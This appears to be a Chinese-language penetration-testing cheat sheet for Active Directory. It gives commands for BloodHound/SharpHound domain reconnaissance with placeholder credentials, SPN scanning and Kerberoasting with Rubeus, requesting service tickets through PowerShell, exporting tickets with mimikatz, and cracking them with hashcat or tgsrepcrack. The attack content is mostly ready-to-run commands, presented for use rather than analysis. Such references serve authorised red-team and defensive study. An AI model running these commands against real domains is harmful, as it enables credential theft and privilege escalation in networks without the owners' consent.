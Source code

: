


## [BloodHound](https://github.com/BloodHoundAD/BloodHound)使用


一键搜集信息
[https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
```cpp
Import-Module .\SharpHound.ps1


Invoke-Bloodhound -Verbose -Domain 'domain.local' -DomainController 'DC01.domain.local' -LDAPUser 'targetuser' -LDAPPass 'targetpass' -CollectionMethod  all
```
最佳查询实践
[https://github.com/hausec/Bloodhound-Custom-Queries/blob/master/customqueries.json](https://github.com/hausec/Bloodhound-Custom-Queries/blob/master/customqueries.json)
[https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/tree/master/F%20-%20BloodHound](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/tree/master/F%20-%20BloodHound)

- Using BloodHound without collectors (ldapsearch stuff)  
[Using Bloodhound in Linux environments](https://www.errno.fr/BloodhoundForLinux.html)

## SPN扫描到Kerberoasting


- 优先级1:rubeus请求,hashcat爆破
```cpp
 .\Rubeus.exe kerberoast
 hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force
```




- 扫描SPN服务
```
https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
setspn -T 0day.org -q */*
```
或者
```cpp
 GetUserSPNs.py 
```

- 客户端请求server端,爆破获得ST票据
```cpp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-Web-Kit.rootkit.org" 
```

- 导出ticket
```cpp
kerberos::list /export 
```
kerberoast爆破
[https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py)

